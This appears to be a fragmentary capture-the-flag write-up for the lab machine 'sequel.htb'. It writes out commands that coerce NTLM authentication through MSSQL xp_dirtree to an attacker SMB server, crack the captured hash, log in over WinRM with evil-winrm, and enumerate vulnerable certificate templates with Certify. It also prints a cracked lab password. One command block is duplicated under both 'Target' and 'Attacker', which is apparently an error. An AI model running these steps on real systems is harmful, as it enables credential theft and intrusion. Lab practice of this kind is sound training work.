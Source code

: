We get a hash:
### Impacket smbserver.py
Now using xp_dirtree and responder:
- Target:
	`xp_dirtree \\10.10.14.22\no_share`
- Attacker:
	`python3 smbserver.py nox_share . -smb2support`
We get a hash:
![](attachment/76a2ec0714c9c702c0a42f9abe4271e7.png)

Using hashcat to crack:
`sql_svc: REGGIE1234ronnie`

Checking winrm access:
```
cme winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
```

We have winrm access![](attachment/d8b81f03a5f39120fb646af6b7fe4365.png)
Trying to run commands from mssql with crackmapexec:
- Target
```
mssqlclient.py user:pass@sequel.htb
```
- Attacker:
```
mssqlclient.py user:pass@sequel.htb
```
Now getting a PS shell with winrm:
```
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![](attachment/68766f28dec8fcaf2f866c3da5804033.png)
Now we know that this box has a certificate authority(CA):
So using [certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
```
.\Certify.exe find /vulnerable
```
